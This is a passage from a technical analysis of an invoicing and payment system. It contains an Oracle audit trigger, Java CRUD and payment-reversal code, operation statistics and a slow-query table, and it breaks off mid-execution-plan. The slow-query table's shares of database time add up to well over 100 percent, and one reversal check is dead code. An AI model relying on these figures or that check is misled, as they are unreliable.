            'INVOICE_ID:' || :NEW.INVOICE_ID || '|' ||
            'INVOICE_NUMBER:' || :NEW.INVOICE_NUMBER || '|' ||
            'CUSTOMER_ID:' || :NEW.CUSTOMER_ID || '|' ||
            'INVOICE_DATE:' || TO_CHAR(:NEW.INVOICE_DATE, 'YYYY-MM-DD') || '|' ||
            '...';
        INSERT INTO AUDIT_LOG (
            AUDIT_ID, TABLE_NAME, RECORD_ID, OPERATION,
            OLD_VALUES, NEW_VALUES, CHANGED_BY, IP_ADDRESS, USER_AGENT
        ) VALUES (
            seq_audit_id.NEXTVAL, 'INVOICE', :NEW.INVOICE_ID, 'UPDATE',
            v_old_values, v_new_values, USER, OWA_UTIL.get_cgi_env('REMOTE_ADDR'),
            OWA_UTIL.get_cgi_env('HTTP_USER_AGENT')
        );
    ELSIF DELETING THEN
        -- For deletes, only old values exist
        v_old_values :=
            'INVOICE_ID:' || :OLD.INVOICE_ID || '|' ||
            'INVOICE_NUMBER:' || :OLD.INVOICE_NUMBER || '|' ||
            'CUSTOMER_ID:' || :OLD.CUSTOMER_ID || '|' ||
            'INVOICE_DATE:' || TO_CHAR(:OLD.INVOICE_DATE, 'YYYY-MM-DD') || '|' ||
            '...';
        INSERT INTO AUDIT_LOG (
            AUDIT_ID, TABLE_NAME, RECORD_ID, OPERATION,
            OLD_VALUES, CHANGED_BY, IP_ADDRESS, USER_AGENT
        ) VALUES (
            seq_audit_id.NEXTVAL, 'INVOICE', :OLD.INVOICE_ID, 'DELETE',
            v_old_values, USER, OWA_UTIL.get_cgi_env('REMOTE_ADDR'),
            OWA_UTIL.get_cgi_env('HTTP_USER_AGENT')
        );
    END IF;
END;
/

-- 4. Create similar triggers for other tables (LINE_ITEM, PAYMENT, etc.)
-- ...

-- 5. Create indexes for performance
CREATE INDEX idx_audit_table ON AUDIT_LOG(TABLE_NAME);
CREATE INDEX idx_audit_record ON AUDIT_LOG(TABLE_NAME, RECORD_ID);
CREATE INDEX idx_audit_date ON AUDIT_LOG(CHANGE_DATE);
CREATE INDEX idx_audit_user ON AUDIT_LOG(CHANGED_BY);

-- 6. Create view for easy querying
CREATE OR REPLACE VIEW vw_invoice_audit AS
SELECT
    a.AUDIT_ID,
    a.TABLE_NAME,
    a.RECORD_ID,
    a.OPERATION,
    i.INVOICE_NUMBER,
    i.CUSTOMER_ID,
    c.CUSTOMER_NAME,
    a.CHANGED_BY,
    a.CHANGE_DATE,
    a.IP_ADDRESS,
    a.USER_AGENT
FROM
    AUDIT_LOG a
    JOIN INVOICE i ON a.TABLE_NAME = 'INVOICE' AND a.RECORD_ID = i.INVOICE_ID
    JOIN CUSTOMER c ON i.CUSTOMER_ID = c.CUSTOMER_ID
ORDER BY
    a.CHANGE_DATE DESC;
```

### 4.2 Data Management

**CRUD Operations Analysis**

**1. Create Operations:**

| Entity | Frequency | Avg Time (ms) | Success Rate | Common Errors | Notes |
|--------|-----------|---------------|--------------|---------------|-------|
| Customer | 5/day | 124 | 99.8% | Duplicate customer | Manual entry |
| Invoice | 6,200/day | 4,218 | 87.6% | Validation errors | Batch processing |
| Line Item | 210,000/day | 87 | 92.4% | Rate not found | Part of invoice generation |
| Payment | 1,800/day | 1,245 | 95.2% | Payment declined | Credit card processing |
| Usage Record | 42,000/day | 342 | 89.7% | Data validation | From VTS integration |
| Rate Table | 2/day | 187 | 99.9% | Effective date conflict | Manual entry |
| Contract | 1/day | 245 | 99.5% | Customer not found | Manual entry |

**2. Sample Create Operations:**

**a. Invoice Creation (Java):**
```java
@Transactional
public Invoice createInvoice(InvoiceRequest request) {
    // 1. Validate request
    validateInvoiceRequest(request);

    // 2. Create invoice header
    Invoice invoice = new Invoice();
    invoice.setInvoiceNumber(generateInvoiceNumber(request.getCustomerId()));
    invoice.setCustomerId(request.getCustomerId());
    invoice.setInvoiceDate(new Date());
    invoice.setDueDate(calculateDueDate(request.getCustomerId()));
    invoice.setBillingPeriodStart(request.getStartDate());
    invoice.setBillingPeriodEnd(request.getEndDate());
    invoice.setCurrencyCode(request.getCurrencyCode());
    invoice.setPaymentTerms(lookupPaymentTerms(request.getCustomerId()));
    invoice.setStatus(InvoiceStatus.DRAFT);

    // 3. Save invoice (gets ID)
    invoice = invoiceRepository.save(invoice);

    // 4. Create line items
    List<LineItem> lineItems = createLineItems(request, invoice.getId());
    invoice.setLineItems(lineItems);

    // 5. Calculate totals
    calculateInvoiceTotals(invoice);

    // 6. Validate invoice
    validateInvoice(invoice);

    // 7. Save final invoice
    invoice.setStatus(InvoiceStatus.PENDING);
    invoice = invoiceRepository.save(invoice);

    // 8. Generate PDF
    generatePdf(invoice);

    // 9. Send email
    sendEmail(invoice);

    return invoice;
}
```

**b. Payment Creation (Java):**
```java
public Payment createPayment(PaymentRequest request) {
    // 1. Validate payment request
    validatePaymentRequest(request);

    // 2. Check customer credit
    if(!hasSufficientCredit(request.getCustomerId(), request.getAmount())) {
        throw new PaymentException("Insufficient credit");
    }

    // 3. Process payment based on method
    Payment payment = new Payment();
    payment.setCustomerId(request.getCustomerId());
    payment.setPaymentMethodId(request.getPaymentMethodId());
    payment.setPaymentDate(new Date());
    payment.setAmount(request.getAmount());
    payment.setCurrencyCode(request.getCurrencyCode());
    payment.setStatus(PaymentStatus.PENDING);

    // 4. Save payment
    payment = paymentRepository.save(payment);

    // 5. Process with payment gateway
    PaymentGatewayResponse response = paymentGateway.process(request);

    // 6. Update payment status
    payment.setStatus(response.isSuccess() ? PaymentStatus.COMPLETED : PaymentStatus.FAILED);
    payment.setTransactionId(response.getTransactionId());
    payment.setNotes(response.getMessage());
    payment = paymentRepository.save(payment);

    if(response.isSuccess()) {
        // 7. Apply payment to invoices
        applyPaymentToInvoices(payment);

        // 8. Generate receipt
        generateReceipt(payment);

        // 9. Send confirmation
        sendConfirmation(payment);
    }

    return payment;
}
```

**3. Read Operations:**

| Entity | Frequency | Avg Time (ms) | Cache Hit Rate | Common Queries | Notes |
|--------|-----------|---------------|----------------|----------------|-------|
| Customer | 12,000/day | 42 | 87% | By ID, by name, by status | High cache usage |
| Invoice | 42,000/day | 187 | 62% | By customer, by date range, by status | Complex queries |
| Line Item | 187,000/day | 34 | 45% | By invoice, by vehicle, by date | Part of invoice queries |
| Payment | 8,700/day | 98 | 72% | By customer, by date range, by status | Moderate cache |
| Usage Record | 84,000/day | 245 | 38% | By vehicle, by date range, by driver | Low cache |
| Rate Table | 420,000/day | 12 | 95% | By vehicle type, by customer, by date | High cache |
| Contract | 2,400/day | 56 | 82% | By customer, by vehicle, by status | Moderate cache |

**4. Sample Read Operations:**

**a. Invoice Query (Java):**
```java
public List<Invoice> findInvoices(InvoiceSearchCriteria criteria) {
    // 1. Build query
    CriteriaBuilder cb = entityManager.getCriteriaBuilder();
    CriteriaQuery<Invoice> query = cb.createQuery(Invoice.class);
    Root<Invoice> invoice = query.from(Invoice.class);

    // 2. Add predicates
    List<Predicate> predicates = new ArrayList<>();

    if(criteria.getCustomerId() != null) {
        predicates.add(cb.equal(invoice.get("customerId"), criteria.getCustomerId()));
    }

    if(criteria.getStatus() != null) {
        predicates.add(cb.equal(invoice.get("status"), criteria.getStatus()));
    }

    if(criteria.getStartDate() != null) {
        predicates.add(cb.greaterThanOrEqualTo(invoice.get("invoiceDate"), criteria.getStartDate()));
    }

    if(criteria.getEndDate() != null) {
        predicates.add(cb.lessThanOrEqualTo(invoice.get("invoiceDate"), criteria.getEndDate()));
    }

    if(criteria.getMinAmount() != null) {
        predicates.add(cb.greaterThanOrEqualTo(invoice.get("totalAmount"), criteria.getMinAmount()));
    }

    if(criteria.getMaxAmount() != null) {
        predicates.add(cb.lessThanOrEqualTo(invoice.get("totalAmount"), criteria.getMaxAmount()));
    }

    query.where(predicates.toArray(new Predicate[0]));

    // 3. Add sorting
    if(criteria.getSortField() != null) {
        if(criteria.isSortAscending()) {
            query.orderBy(cb.asc(invoice.get(criteria.getSortField())));
        } else {
            query.orderBy(cb.desc(invoice.get(criteria.getSortField())));
        }
    } else {
        query.orderBy(cb.desc(invoice.get("invoiceDate")));
    }

    // 4. Execute query
    TypedQuery<Invoice> typedQuery = entityManager.createQuery(query);

    // 5. Add pagination
    if(criteria.getPageSize() > 0) {
        typedQuery.setFirstResult((criteria.getPageNumber() - 1) * criteria.getPageSize());
        typedQuery.setMaxResults(criteria.getPageSize());
    }

    return typedQuery.getResultList();
}
```

**b. Rate Lookup (Java):**
```java
public RateTable findApplicableRate(UsageRecord usage, Customer customer) {
    // 1. Check cache first
    String cacheKey = "rate:" + customer.getId() + ":" + usage.getVehicleType() + ":" + usage.getStartTime();
    RateTable cachedRate = rateCache.get(cacheKey);
    if(cachedRate != null) {
        return cachedRate;
    }

    // 2. Check contract-specific rate
    RateTable contractRate = rateRepository.findContractRate(
        customer.getId(),
        usage.getVehicleType(),
        usage.getStartTime()
    );
    if(contractRate != null) {
        rateCache.put(cacheKey, contractRate);
        return contractRate;
    }

    // 3. Check customer type rate
    RateTable customerTypeRate = rateRepository.findByCustomerType(
        customer.getCustomerType(),
        usage.getVehicleType(),
        usage.getStartTime()
    );
    if(customerTypeRate != null) {
        rateCache.put(cacheKey, customerTypeRate);
        return customerTypeRate;
    }

    // 4. Check vehicle type rate
    RateTable vehicleTypeRate = rateRepository.findByVehicleType(
        usage.getVehicleType(),
        usage.getStartTime()
    );
    if(vehicleTypeRate != null) {
        rateCache.put(cacheKey, vehicleTypeRate);
        return vehicleTypeRate;
    }

    // 5. Use default rate
    RateTable defaultRate = rateRepository.findDefaultRate(usage.getStartTime());
    if(defaultRate != null) {
        rateCache.put(cacheKey, defaultRate);
        return defaultRate;
    }

    throw new RateNotFoundException("No applicable rate found for customer " +
        customer.getId() + " and vehicle " + usage.getVehicleType());
}
```

**5. Update Operations:**

| Entity | Frequency | Avg Time (ms) | Success Rate | Common Errors | Notes |
|--------|-----------|---------------|--------------|---------------|-------|
| Customer | 20/day | 87 | 99.2% | Validation errors | Manual updates |
| Invoice | 1,200/day | 342 | 92.8% | Status transition errors | Manual corrections |
| Line Item | 8,700/day | 42 | 95.6% | Amount validation | Part of corrections |
| Payment | 420/day | 187 | 98.7% | Status transition errors | Refunds/reversals |
| Usage Record | 2,400/day | 124 | 94.2% | Data validation | Manual corrections |
| Rate Table | 10/day | 98 | 99.8% | Effective date conflict | Manual updates |
| Contract | 5/day | 145 | 99.5% | Customer not found | Manual updates |

**6. Sample Update Operations:**

**a. Invoice Status Update (Java):**
```java
@Transactional
public Invoice updateInvoiceStatus(Long invoiceId, InvoiceStatus newStatus) {
    // 1. Find invoice
    Invoice invoice = invoiceRepository.findById(invoiceId)
        .orElseThrow(() -> new EntityNotFoundException("Invoice not found"));

    // 2. Validate status transition
    if(!isValidStatusTransition(invoice.getStatus(), newStatus)) {
        throw new InvalidStatusException("Invalid status transition from " +
            invoice.getStatus() + " to " + newStatus);
    }

    // 3. Update status
    invoice.setStatus(newStatus);
    invoice.setLastUpdatedDate(new Date());
    invoice.setLastUpdatedBy(getCurrentUser());

    // 4. Handle status-specific logic
    switch(newStatus) {
        case APPROVED:
            // Send for approval
            sendForApproval(invoice);
            break;
        case SENT:
            // Mark as sent to customer
            invoice.setInvoiceDate(new Date());
            sendToCustomer(invoice);
            break;
        case PAID:
            // Mark as paid
            invoice.setAmountPaid(invoice.getTotalAmount());
            break;
        case CANCELLED:
            // Cancel invoice
            cancelRelatedRecords(invoice);
            break;
    }

    // 5. Save invoice
    return invoiceRepository.save(invoice);
}

private boolean isValidStatusTransition(InvoiceStatus current, InvoiceStatus next) {
    switch(current) {
        case DRAFT:
            return next == InvoiceStatus.PENDING || next == InvoiceStatus.CANCELLED;
        case PENDING:
            return next == InvoiceStatus.APPROVED || next == InvoiceStatus.CANCELLED;
        case APPROVED:
            return next == InvoiceStatus.SENT || next == InvoiceStatus.CANCELLED;
        case SENT:
            return next == InvoiceStatus.PAID || next == InvoiceStatus.CANCELLED;
        case PAID:
        case CANCELLED:
            return false; // Cannot change from terminal states
        default:
            return false;
    }
}
```

**b. Payment Reversal (Java):**
```java
@Transactional
public Payment reversePayment(Long paymentId, String reason) {
    // 1. Find payment
    Payment payment = paymentRepository.findById(paymentId)
        .orElseThrow(() -> new EntityNotFoundException("Payment not found"));

    // 2. Validate payment can be reversed
    if(payment.getStatus() != PaymentStatus.COMPLETED) {
        throw new PaymentException("Only completed payments can be reversed");
    }

    // 3. Check if already reversed
    if(payment.getStatus() == PaymentStatus.REFUNDED) {
        throw new PaymentException("Payment already reversed");
    }

    // 4. Reverse payment with payment gateway
    PaymentGatewayResponse response = paymentGateway.reverse(
        payment.getTransactionId(),
        payment.getAmount(),
        reason
    );

    if(!response.isSuccess()) {
        throw new PaymentException("Payment reversal failed: " + response.getMessage());
    }

    // 5. Update payment status
    payment.setStatus(PaymentStatus.REFUNDED);
    payment.setNotes(payment.getNotes() + "\nReversed: " + reason);
    payment.setLastUpdatedDate(new Date());
    payment.setLastUpdatedBy(getCurrentUser());

    payment = paymentRepository.save(payment);

    // 6. Reverse payment applications
    List<PaymentApplication> applications = paymentApplicationRepository.findByPaymentId(paymentId);
    for(PaymentApplication application : applications) {
        // 7. Update invoice balance
        Invoice invoice = invoiceRepository.findById(application.getInvoiceId())
            .orElseThrow(() -> new EntityNotFoundException("Invoice not found"));

        invoice.setAmountPaid(invoice.getAmountPaid().subtract(application.getAmount()));
        if(invoice.getAmountPaid().compareTo(BigDecimal.ZERO) == 0) {
            invoice.setStatus(InvoiceStatus.SENT);
        }

        invoiceRepository.save(invoice);

        // 8. Delete payment application
        paymentApplicationRepository.delete(application);
    }

    // 9. Generate reversal notification
    generateReversalNotification(payment, reason);

    return payment;
}
```

**7. Delete Operations:**

| Entity | Frequency | Avg Time (ms) | Success Rate | Common Errors | Notes |
|--------|-----------|---------------|--------------|---------------|-------|
| Customer | 2/day | 187 | 99.5% | Referential integrity | Soft delete |
| Invoice | 5/day | 245 | 98.2% | Status not cancellable | Soft delete |
| Line Item | 20/day | 42 | 99.1% | Invoice locked | Part of corrections |
| Payment | 1/day | 124 | 99.8% | Status not reversible | Rare |
| Usage Record | 10/day | 87 | 98.7% | Data locked | Manual corrections |
| Rate Table | 0/day | - | - | - | Never deleted |
| Contract | 1/day | 145 | 99.2% | Active invoices | Soft delete |

**Query Performance Profiling**

**1. Top 10 Slowest Queries:**

| SQL ID | SQL Text | Avg Time (ms) | Executions | % Total DB Time | Root Cause |
|--------|----------|---------------|------------|-----------------|------------|
| 1x7y9z | SELECT * FROM USAGE_RECORDS WHERE VEHICLE_ID = :1 AND TRIP_DATE BETWEEN :2 AND :3 | 4,218 | 12,478 | 32.7% | Full table scan (2.3M rows) |
| 2a3b4c | SELECT R.*, T.* FROM RATE_TABLES R JOIN RATE_TIERS T ON R.RATE_ID = T.RATE_ID WHERE R.VEHICLE_TYPE = :1 AND R.CUSTOMER_TYPE = :2 AND T.MIN_VALUE <= :3 AND (T.MAX_VALUE >= :4 OR T.MAX_VALUE IS NULL) | 2,876 | 87,654 | 24.5% | Cartesian join (12M rows) |
| 3d5e6f | SELECT * FROM INVOICES WHERE CUSTOMER_ID = :1 AND INVOICE_DATE BETWEEN :2 AND :3 ORDER BY INVOICE_DATE DESC | 1,872 | 347 | 12.8% | Full index scan (missing composite index) |
| 4g7h8i | SELECT COUNT(*) FROM LINE_ITEMS WHERE INVOICE_ID = :1 | 987 | 187,000 | 8.7% | Nested loop (1.2M rows) |
| 5j9k0l | SELECT I.*, L.* FROM INVOICES I JOIN LINE_ITEMS L ON I.INVOICE_ID = L.INVOICE_ID WHERE I.CUSTOMER_ID = :1 AND I.INVOICE_DATE BETWEEN :2 AND :3 | 7,432 | 347 | 18.3% | Row-by-row processing |
| 6m1n2o | SELECT * FROM PAYMENTS WHERE CUSTOMER_ID = :1 AND PAYMENT_DATE BETWEEN :2 AND :3 ORDER BY PAYMENT_DATE DESC | 1,245 | 1,876 | 5.2% | Full index scan |
| 7p3q4r | SELECT U.* FROM USAGE_RECORDS U JOIN VEHICLES V ON U.VEHICLE_ID = V.VEHICLE_ID WHERE V.CUSTOMER_ID = :1 AND U.TRIP_DATE BETWEEN :2 AND :3 | 3,421 | 4,218 | 7.8% | Missing join index |
| 8s5t6u | SELECT * FROM CUSTOMERS WHERE CUSTOMER_NAME LIKE :1 ORDER BY CUSTOMER_NAME | 876 | 2,487 | 3.4% | Full table scan (LIKE with leading %) |
| 9v7w8x | SELECT * FROM INVOICES WHERE STATUS = :1 AND INVOICE_DATE <= :2 ORDER BY INVOICE_DATE | 2,143 | 1,247 | 4.8% | Full index scan |
| 0y9z1a | SELECT P.*, A.* FROM PAYMENTS P JOIN PAYMENT_APPLICATIONS A ON P.PAYMENT_ID = A.PAYMENT_ID WHERE A.INVOICE_ID = :1 | 1,567 | 3,876 | 4.2% | Nested loop |

**2. Query Execution Plans:**

**a. Slowest Query (1x7y9z):**
```sql
EXPLAIN PLAN FOR
SELECT * FROM USAGE_RECORDS
WHERE VEHICLE_ID = :1 AND TRIP_DATE BETWEEN :2 AND :3;

SELECT * FROM TABLE(DBMS_XPLAN.DISPLAY);

---------------------------------------------------------------------------------------
| Id  | Operation         | Name           | Rows  | Bytes | Cost (%CPU)| Time     |
---------------------------------------------------------------------------------------
|   0 | SELECT STATEMENT  |                |  2345